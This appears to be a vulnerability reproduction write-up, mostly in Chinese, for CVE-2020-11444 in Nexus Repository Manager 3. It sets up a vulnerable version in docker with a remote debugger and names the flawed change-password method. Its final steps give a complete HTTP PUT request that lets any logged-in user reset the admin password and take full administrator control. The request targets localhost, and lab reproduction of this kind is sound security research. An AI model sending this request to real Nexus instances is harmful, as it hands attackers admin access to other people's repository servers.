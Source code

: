 CVE-2020-11444 Nexus Repository Manager 3

影响版本：<= 3.21.2
Affected Versions:  All previous Nexus Repository Manager 3 OSS/Pro versions up to and including 3.21.2

Fixed in Version:  Nexus Repository Manager OSS/Pro version 3.22.0

### 1. 拉取镜像
```
docker pull sonatype/nexus3:3.21.2
```

### 2. 创建nexus数据目录
```
mkdir /your-dir/nexus-data && chown -R 200 /your-dir/nexus-data
```

### 3. 运行nexus docker镜像
```
docker run -d --rm -p 8081:8081 -p 5050:5050 --name nexus -v /your-dir/nexus-data:/nexus-data -e INSTALL4J_ADD_VM_PARAMS="-Xms2g -Xmx2g -XX:MaxDirectMemorySize=3g  -Djava.util.prefs.userRoot=/nexus-data -agentlib:jdwp=transport=dt_socket,server=y,suspend=n,address=5050" sonatype/nexus3::3.21.2
```

### 4. github下载源码 & idea远程debug
```
git clone https://github.com/sonatype/nexus-public.git
git checkout -b release-3.21.0-05 origin/release-3.21.0-05
```
idea创建远程debug-启动
``` 
-agentlib:jdwp=transport=dt_socket,server=y,suspend=n,address=5050
```
漏洞点在 org.sonatype.nexus.security.internal.rest.UserApiResource#changePassword 接口

新版本在 org.sonatype.nexus.security.internal.DefaultSecuritySystem#changePassword(java.lang.String, java.lang.String, boolean) 修复

### 5. 登陆任何一个账号

### 6. 调用更新role接口
数据包：
```
PUT /service/rest/beta/security/users/admin/change-password HTTP/1.1
Host: 127.0.0.1:8081
Content-Length: 6
accept: application/json
Sec-Fetch-Dest: empty
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.149 Safari/537.36
NX-ANTI-CSRF-TOKEN: 0.6080434247960143
Content-Type: text/plain
Origin: http://127.0.0.1:8081
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Referer: http://127.0.0.1:8081/swagger-ui/?_v=3.21.1-01&_e=OSS
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: NX-ANTI-CSRF-TOKEN=0.6080434247960143; NXSESSIONID=af3706e2-dc9e-47fa-9739-edb6b3d512fe
Connection: close

123456
```

### 7. 使用admin & 123456登陆，获得最高管理员权限
